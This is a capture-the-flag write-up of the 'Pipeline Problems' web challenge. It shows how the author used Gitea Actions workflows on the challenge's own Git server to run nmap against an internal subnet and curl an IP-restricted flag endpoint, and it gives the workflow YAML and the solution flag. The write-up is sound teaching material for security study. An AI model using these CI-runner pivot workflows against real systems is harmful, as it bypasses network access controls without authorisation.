 # Web: Pipeline Problems (326)

I've been working on a new project, my new "flag API" which gives out flags on demand. I even have a nice setup for rapid testing and deployment. Can you test it out and see how secure it is?

[http://flag-api.challs.uscybergames.com:8000](http://flag-api.challs.uscybergames.com:8000)

Author: [tsuto](https://github.com/jselliott)

When we go to the website, we are met with an API listing.

![Image 1](Screenshots/1.png)

The title being "Pipeline Problems" seems to imply that the pipeline is the source of the exploit in this challenge, so if we head to `/source`, we can then see that there is a Git server, hosted on Gitea.

![Image 2](Screenshots/2.png)

And from here, we can sign up and log in to continue!

Exploring, we can find the code for this flag server.

![Image 3](Screenshots/3.png)

Looking at `src/main.py`, we can find something interesting...

```py
@app.middleware('http')
async def trusted_ip_middleware(request: Request, call_next):
    ip = str(request.client.host)

    # Only allow local network to access flag
    if request.scope['path'] == "/get_flag" and ipaddress.ip_address(ip) not in ipaddress.ip_network('10.0.0.0/24'):
        return JSONResponse(content="403 - Forbidden: Access is denied", status_code=403)

    return await call_next(request)
```

So, we can only access, the `/get_flag` path from within the local network. 

Also, in `.gitea/workflows/demo.yaml`, we can find that this server is hosted on Gitea.

![Image 4](Screenshots/4.png)

So, if we can use Gitea Actions, maybe we can access the server on this IP?

If we create our own repository with a workflow with the following code, we can start to look around this network.

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: apt update
      - run: apt install nmap -y
      - run: nmap 10.0.0.0/24
```

However, we also need to enable Actions...

![Image 5](Screenshots/5.png)

Looking at our action, we find this:

![Image 6](Screenshots/6.png)

Only `10.0.0.9` has HTTP, though only port 8000 is actually open. However, this is also the same port we got from the description.

So what happens when we use curl on this?

Using this workflow now:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: curl -v 10.0.0.9:8000/get_flag
```

However, we only see that there's 40 bytes of data...

![Image 7](Screenshots/7.png)

Now changing to this:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo $(curl -v 10.0.0.9:8000/get_flag)
```

And now, we can get the flag!

![Image 8](Screenshots/8.png)

And our flag is `SIVUSCG{thr0ugh_th3_p1p3l1n3}`!